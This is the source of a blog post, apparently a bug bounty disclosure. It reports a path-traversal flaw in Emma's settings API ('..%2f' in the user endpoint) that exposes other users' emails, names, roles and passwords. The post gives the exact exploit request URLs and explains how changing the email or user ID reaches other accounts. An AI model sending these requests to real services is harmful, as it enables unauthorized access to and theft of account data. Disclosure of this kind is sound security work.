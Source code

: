 ```yaml
---
layout: post
title: Emma Users Information Leak via endpoint traversal
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Step 1:

&nbsp;&nbsp;&nbsp;visit `https://settings.e2ma.net/` and login.

&nbsp;&nbsp;&nbsp;visit `https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password` here is endpoint when you use `..%2f`,and you can visit other endpoint, this endpoint allowe get some information like email,passwrod,every sensitive data,so you use ..%2f,you can get other user information like:

{% highlight php %}
https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password

https://settings.e2ma.net/api/user/..%2ftest2@root.com?fields=user_id,email,user_name_first,user_name_last,role,password
{% endhighlight %}

&nbsp;&nbsp;&nbsp;I just only have two email,so I can give you two user information for this demo!but you can change `test2@root.com` to other user email, and you can get other user information like username password.


<img src="https://i.loli.net/2019/05/09/5cd3e8fc1cd62.jpeg">


&nbsp;&nbsp;&nbsp;But then I found can get other user email address via this endpoint,and Just need change 1900932, You can get another user’s email address,you can get everything information about this user in this endponit: `https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password` here is endpoint when you use `..%2f`,and you can visit other endpoint,and this endpoint allowe get some information like email,passwrod,every sensitive data:


<img src="https://i.loli.net/2019/05/09/5cd3e8fc20656.jpeg">